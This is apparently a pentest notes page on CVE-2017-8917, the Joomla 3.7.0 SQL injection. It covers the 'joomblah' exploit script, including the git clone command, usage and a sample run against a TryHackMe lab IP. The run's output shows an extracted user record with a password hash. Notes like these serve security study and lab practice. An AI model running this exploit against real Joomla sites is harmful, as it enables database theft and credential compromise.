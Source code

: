```yaml
---
title : "CVE-2017-8917"
# pre : ' '
description : "SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah."
date : 2021-06-18T19:30:01+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2017-8917 - SQL injection Vulnerability in Joomla! 3.7.0 exploit aka joomblah

## Installation

{{%resources fa_icon_class="far fa-file-code" pattern=".*(py)"/%}}

```plain
git clone https://github.com/stefanlucas/Exploit-Joomla.git
```

## Usage

```plain
joomblah.py [-h] url
```

## Flags

```plain
Jooma Exploit

positional arguments:
  url         Base URL for Joomla site

optional arguments:
  -h, --help  show this help message and exit
```

## Examples

```plain
$ python joomblah.py http://10.10.181.117/
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

## URL List

- [Github.com - Exploit-Joomla](https://github.com/stefanlucas/Exploit-Joomla)
